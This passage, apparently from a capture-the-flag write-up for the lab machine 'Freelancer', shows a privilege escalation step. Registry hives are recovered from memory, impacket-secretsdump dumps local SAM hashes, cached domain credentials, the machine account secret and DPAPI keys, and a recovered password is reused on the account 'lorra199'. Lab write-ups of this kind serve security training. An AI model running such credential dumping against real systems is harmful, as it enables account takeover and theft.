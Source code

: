 ## Privilege Escalation to lorra199

The directory `hive_files` contained `registry hives` for the `SAM` file.

```c
┌──(root㉿kali)-[/mnt/freelancer/registry/hive_files]
└─# ls
0xffffd30679c0e000-unknown-unknown.reghive                                              0xffffd3067db43000-BBI-A_{ae450ff4-3002-4d4d-921c-fd354d63ec8b}.reghive
0xffffd30679c46000-SYSTEM-MACHINE_SYSTEM.reghive                                        0xffffd3067db53000-NTUSERDAT-USER_S-1-5-19.reghive
0xffffd30679cdc000-unknown-MACHINE_HARDWARE.reghive                                     0xffffd3067dd5e000-ActivationStoredat-A_{D65833F6-A688-4A68-A28F-F59183BDFADA}.reghive
0xffffd3067b257000-settingsdat-A_{c94cb844-4804-8507-e708-439a8873b610}.reghive         0xffffd3067e30e000-UsrClassdat-USER_S-1-5-21-3542429192-2036945976-3483670807-1121_Classes.reghive
0xffffd3067b261000-ActivationStoredat-A_{23F7AFEB-1A41-4BD7-9168-EA663F1D9A7D}.reghive  0xffffd3067ec26000-Amcachehve-A_{da3518a3-bbc6-1dba-206b-2755382f1364}.reghive
0xffffd3067b514000-BCD-MACHINE_BCD00000000.reghive                                      0xffffd3067ec39000-ntuserdat-USER_S-1-5-21-3542429192-2036945976-3483670807-1121.reghive
0xffffd3067b516000-SOFTWARE-MACHINE_SOFTWARE.reghive                                    0xffffd3067ec58000-settingsdat-A_{8a28242f-95cc-f96a-239c-d8a872afe4cc}.reghive
0xffffd3067d7e9000-DEFAULT-USER_.DEFAULT.reghive                                        0xffffd3067f097000-DRIVERS-MACHINE_DRIVERS.reghive
0xffffd3067d7f0000-SECURITY-MACHINE_SECURITY.reghive                                    0xffffd3067f91b000-UsrClassdat-USER_S-1-5-21-3542429192-2036945976-3483670807-500_Classes.reghive
0xffffd3067d935000-SAM-MACHINE_SAM.reghive                                              0xffffd3067f9e7000-ntuserdat-USER_S-1-5-21-3542429192-2036945976-3483670807-500.reghive
0xffffd3067d9c4000-NTUSERDAT-USER_S-1-5-20.reghive
```

We extracted credentials using `impacket-secretsdump` on the `hive files` and used the newly found `password` on `lorra199`.

```c
┌──(root㉿kali)-[/mnt/freelancer/registry/hive_files]
└─# impacket-secretsdump -security 0xffffd3067d7f0000-SECURITY-MACHINE_SECURITY.reghive -sam 0xffffd3067d935000-SAM-MACHINE_SAM.reghive -system 0xffffd30679c46000-SYSTEM-MACHINE_SYSTEM.reghive LOCAL 
Impacket for Exegol - v0.10.1.dev1+20240403.124027.3e5f85b - Copyright 2022 Fortra - forked by ThePorgs

[*] Target system bootKey: 0xaeb5f8f068bbe8789b87bf985e129382
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:725180474a181356e53f4fe3dffac527:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:04fc56dd3ee3165e966ed04ea791d7a7:::
[*] Dumping cached domain logon information (domain/username:hash)
FREELANCER.HTB/Administrator:$DCC2$10240#Administrator#67a0c0f193abd932b55fb8916692c361: (2023-10-04 12:55:34)
FREELANCER.HTB/lorra199:$DCC2$10240#lorra199#7ce808b78e75a5747135cf53dc6ac3b1: (2023-10-04 12:29:00)
FREELANCER.HTB/liza.kazanof:$DCC2$10240#liza.kazanof#ecd6e532224ccad2abcf2369ccb8b679: (2023-10-04 17:31:23)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:a680a4af30e045066419c6f52c073d738241fa9d1cff591b951535cff5320b109e65220c1c9e4fa891c9d1ee22e990c4766b3eb63fb3e2da67ebd19830d45c0ba4e6e6df93180c0a7449750655edd78eb848f757689a6889f3f8f7f6cf53e1196a528a7cd105a2eccefb2a17ae5aebf84902e3266bbc5db6e371627bb0828c2a364cb01119cf3d2c70d920328c814cad07f2b516143d86d0e88ef1504067815ed70e9ccb861f57394d94ba9f77198e9d76ecadf8cdb1afda48b81f81d84ac62530389cb64d412b784f0f733551a62ec0862ac2fb261b43d79990d4e2bfbf4d7d4eeb90ccd7dc9b482028c2143c5a6010
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:1003ddfa0a470017188b719e1eaae709
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xcf1bc407d272ade7e781f17f6f3a3fc2b82d16bc
dpapi_userkey:0x6d210ab98889fac8829a1526a5d6a2f76f8f9d53
```